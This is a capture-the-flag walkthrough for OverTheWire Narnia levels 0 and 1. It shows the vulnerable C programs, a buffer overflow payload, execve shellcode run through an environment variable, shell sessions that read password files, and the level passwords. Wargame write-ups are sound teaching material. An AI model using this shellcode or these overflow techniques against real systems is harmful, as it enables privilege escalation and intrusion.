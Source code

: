 ```yaml
---
title: OverTheWire：Narnia
---
```


## Level 0

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>narnia0</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>narnia0</td>
  </tr>
</tbody>
</table>

```bash
$ ssh narnia0@narnia.labs.overthewire.org -p 2226
$ cd /narnia/
$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
```

```bash
$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
$ (python3 -c "import sys; sys.stdout.buffer.write(b'a' * 20 + int.to_bytes(0xdeadbeef, 4, 'little'))"; cat) | ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```

## Level 1

<table>
<tbody>
  <tr>
    <td>Username</td>
    <td>narnia1</td>
  </tr>
</tbody>
<tbody>
  <tr>
    <td>Password</td>
    <td>eaa6AjYMBB</td>
  </tr>
</tbody>
</table>

```bash
$ ssh narnia1@narnia.labs.overthewire.org -p 2226
$ cd /narnia/
$ cat narnia1.c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
# 可以执行 shellcode
# 参考 narnia0 需要先 setreuid(geteuid(), geteuid())
# http://shell-storm.org/shellcode/files/shellcode-399.html
$ EGG=`python3 -c "import sys; sys.stdout.buffer.write(b'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80')"` ./narnia1
Trying to execute EGG!
$ id
uid=14002(narnia2) gid=14001(narnia1) groups=14001(narnia1)
$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
$ exit
```